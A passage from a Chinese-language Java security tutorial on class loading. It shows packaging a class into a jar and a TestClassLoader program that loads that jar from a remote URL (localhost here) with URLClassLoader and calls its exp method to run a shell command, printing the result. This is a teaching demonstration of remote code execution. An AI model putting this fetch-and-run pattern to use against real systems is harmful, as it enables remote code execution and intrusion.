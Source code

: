 打包成 jar 文件
```bash
jar -cvf TestExp.jar TestExp.class
```

编写 TestClassLoader 利用类
```java
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.net.URL;
import java.net.URLClassLoader;

public class TestClassLoader{
    public static void main(String[] args){
        try{
            // 定义加载的远程jar包地址
            URL url = new URL("http://127.0.0.1/TestExp.jar");
            // 创建URLClassLoader对象，加载jar包
            URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{url});
            // 定义执行命令
            String cmd = "ls";
            // 通过URLClassLoader加载远程jar包中的TestExp类
            Class TestExp = urlClassLoader.loadClass("TestExp");
            // 调用TestExp中的exp方法
            Process process = (Process) TestExp.getMethod("exp",String.class).invoke(null, cmd);

            // 获取命令执行输入流
            InputStream in = process.getInputStream();
            ByteArrayOutputStream out = new ByteArrayOutputStream();
            byte[] b = new byte[1024];
            int a = -1;

            //读取命令执行结果流
            while ((a = in.read(b))!= -1){
                out.write(b, 0, a);
            }
            //打印命令执行结果
            System.out.println(out.toString());
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

运行结果![image-20220717172840755](类加载.images/image-20220717172840755.png)

